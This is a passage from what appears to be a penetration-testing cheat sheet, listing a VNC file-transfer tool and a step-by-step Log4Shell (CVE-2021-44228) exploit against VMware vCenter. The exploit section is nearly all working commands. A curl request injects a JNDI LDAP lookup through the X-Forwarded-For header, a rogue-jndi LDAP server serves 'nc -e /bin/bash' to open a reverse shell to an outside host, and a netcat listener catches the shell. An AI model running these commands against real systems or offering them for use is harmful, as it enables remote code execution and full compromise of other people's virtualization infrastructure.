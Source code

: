### <a name='file-transfer'></a>file-transfer

Tools to transfer files via VNC (works on Windows 10 only):

* [Invoke-Transfer](https://github.com/JoelGMSec/Invoke-Transfer)

## <a name='vcenter'></a>vcenter

* service-port   : 
* service-process: 
* artifacts      : 

### <a name='CVE-2021-44228-VCenter'></a>CVE-2021-44228-VCenter

```bash
# install
git clone https://github.com/veracode-research/rogue-jndi.git
apt install default-jdk
apt install java-common
apt install java-package

# check if Vcenter version is vulnerable
curl -ski https://1.2.3.4/ui/login | grep Location

# tmux windows 0 splitting
Ctrl-b %
Ctrl-b ->
Ctrl-b "

## cmds to run consequently in tmux windows 1, 2 and 3 

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

# HOOK STEP 2: run a rogue LDAP server that hook VCenter, executing netcat back to us 
sudo java -jar target/RogueJndi-1.1.jar --command "nc -e /bin/bash 1.1.1.1 4242" --hostname "1.1.1.1"

# CHECK: 1/ the LDAP, and 2/ the netcat, hooks come back
sudo tcpdump -ni eth0 host 1.2.3.4

# tmux windows 1 splitting
Ctrl-b c
Ctrl-b %
Ctrl-b ->
Ctrl-b "

# REVERSE SHELL: 
nc -lvnp 4242
```

